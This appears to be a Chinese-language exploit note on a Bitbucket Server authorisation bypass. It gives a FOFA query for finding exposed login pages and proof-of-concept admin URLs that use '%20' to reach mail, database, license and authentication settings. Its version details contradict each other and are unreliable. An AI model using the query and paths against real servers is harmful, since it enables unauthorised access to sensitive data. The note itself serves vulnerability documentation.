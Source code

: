 # Atlassian Bitbucket 登录绕过漏洞

## 漏洞描述

此错误已修复并部署在 Bitbucket Server > 4.8 上。Bitbucket 由 Atlassian 团队开发。其中出现了一个通过 %20 绕过权限的漏洞，导致任意用户可获取敏感数据

## 漏洞影响

```
Bitbucket Server > 4.8
```

## FOFA

```
title="Log in - Bitbucket"
```

## 漏洞复现

登录页面

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241429046.png)

验证POC

```
/admin%20/mail-server
/admin%20/db
/admin%20/db/edit
/admin%20/license
/admin%20/logging
/admin%20/server-settings
/admin%20/authentication
/admin%20/avatars
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241429345.png)